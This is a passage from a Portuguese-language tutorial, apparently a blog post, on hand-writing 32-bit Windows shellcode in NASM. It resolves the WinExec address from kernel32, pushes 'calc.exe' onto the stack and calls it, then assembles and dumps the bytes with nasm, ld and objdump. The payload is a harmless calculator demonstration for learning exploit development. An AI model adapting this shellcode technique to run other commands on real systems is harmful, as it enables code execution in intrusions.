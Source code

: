 ```nasm
findaddr:

    add ebx, 1              ;aplicando a correção no contador de ebx
    mov edi, [edx + ebx*4]  ;corrigindo o valor de edi
    add eax, edi            ;;#adicione o endereço base do kerneldll32 ao endereço acima para obter o endereço WinExec
```

Ao executarmos no `x32dbg` veremos que o endereço da função `WinExec` agora está armazenada no registrador `eax`.

![](/img/posts/Pasted%20image%2020240718191159.png)

Uma vez que temos o endereço da `WinExec` armazenado em um registrador, o que precisamos é enviar seus argumentos para a *stack* e fazer a chamada. O último trecho de código fica:

```nasm
callcalc:

    push ecx            ;String terminator 0x00 para "calc.exe"
    push 0x6578652e     ;exe.
    push 0x636c6163     ;clac

    mov ebx, esp        ;salvando o ponteiro para a string "calc.exe" em ebx

    ; UINT WinExec([in] LPCSTR lpCmdLine, [in] UINT   uCmdShow);
    inc  ecx            ;uCmdShow = 1
    push ecx            ;uCmdShow *ptr para stack na posição 2 - LIFO
    push ebx            ;lpcmdLine *ptr para stack na posição 1
    call eax            ;invocando WinExec de eax
```

Agora podemos compilar o programa no próprio Linux:

```bash
$ nasm -f elf shellcodecalc.asm
$ ld -m elf_i386 -o shellcodecalc shellcodecalc.o
$ objdump -M intel -d shellcodecalc
```
